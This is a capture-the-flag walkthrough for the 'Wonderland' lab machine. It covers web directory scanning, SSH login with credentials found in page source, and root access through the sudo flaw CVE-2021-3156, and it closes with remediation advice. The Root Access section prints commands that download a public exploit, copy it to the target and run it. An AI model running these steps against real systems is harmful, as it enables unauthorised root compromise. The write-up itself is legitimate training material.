

# Wonderland

- [Wonderland](#wonderland)
  - [Overview](#overview)
  - [Service Enumeration](#service-enumeration)
  - [Low-Privilege Access](#low-privilege-access)
  - [Root Access](#root-access)
  - [Findings and Recommendations](#findings-and-recommendations)

## Overview
Walkthrough for Wonderland: user and root flags.

## Service Enumeration
A port scan reveals the machine is running SSH and a web server.

 <br>

Navigating to `http://10.10.221.97` brings us to the Wonderland homepage.

 <br>

Launch a web directory scan.
```
feroxbuster -u http://10.10.221.97 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -k -n -r -t 75 --smart
```

 <br>

The scan found an interesting page: `/r`. Going to it reveals a hint.

 <br>

Run a recursive web directory scan against `/r` by removing the `-n` option.
```
feroxbuster -u http://10.10.221.97/r -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -k -r -t 75 --smart
```

 <br>

Again, the scan found an interesting page: `/r/a/b/b/i`. Going to it reveals another hint. This looks like it's going to spell out rabbit.

 <br>

Quit the current scan.

## Low-Privilege Access
Go to the page: `/r/a/b/b/i/t` and inspect the source code to find possible credentials for `alice`.

 <br>

SSH to Wonderland as `alice`.

 <br>

Interestingly, the root flag is located in our home directory instead of the user flag.

Also noteworthy is the `/root` directory being world-executable.

 <br>

This means we can navigate to it and **read files** but cannot list the contents inside. There is a [StackExchange post](https://unix.stackexchange.com/questions/21251/execute-vs-read-bit-how-do-directory-permissions-in-linux-work) with a table summarizing directory permissions.

 <br>

The user flag is found at `/root/user.txt`.

## Root Access
A [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) scan provides us with some interesting info about Wonderland:
- Running Ubuntu 18.04 with a kernel version of 4.15.0-101
- Running Sudo 1.8.21p2
- Possibly affected by [CVE-2021-3156](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3156)

 <br>

CVE-2021-3156 describes a [buffer overflow in sudo](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt) that allows any local user to gain root, and is known to affect the following versions:
- 1.8.2 to 1.8.31p2
- 1.9.0 to 1.9.5.p1

A public exploit is available [here](https://github.com/worawit/CVE-2021-3156). Based on our OS version, the recommended file is `exploit_nss.py`.

Download the exploit and transfer it to Wonderland.
```
wget https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py
scp exploit_nss.py alice@10.10.221.97:/home/alice/exploit_nss.py
```

Run the exploit to get root.
```
chmod +x exploit_nss.py
python3 exploit_nss.py
```

 <br>

The flag is found at `/home/alice/root.txt`.

## Findings and Recommendations
**Unsecured Credentials**

Cleartext credentials were found and used for SSH access in two instances:
- The username and password for `alice` was located in source code of the `/r/a/b/b/i/t` page. This was used for initial access.
- The password for `hatter` was found in a text file in their home directory.

Consider storing credentials in a keyvault as well as utilizing multi-factor or password-less authentication for SSH.

**Insecure Directory Permissions**

Insecure permissions allow a low-privilege user to access files in the root (`/root`) directory. Ensure that only root users have access to the directory.

**Vulnerable Application**

Upgrade sudo to version 1.8.21p2-3ubuntu1.4 or above. See [this page](https://ubuntu.com/security/CVE-2021-3156) information on other Ubuntu releases.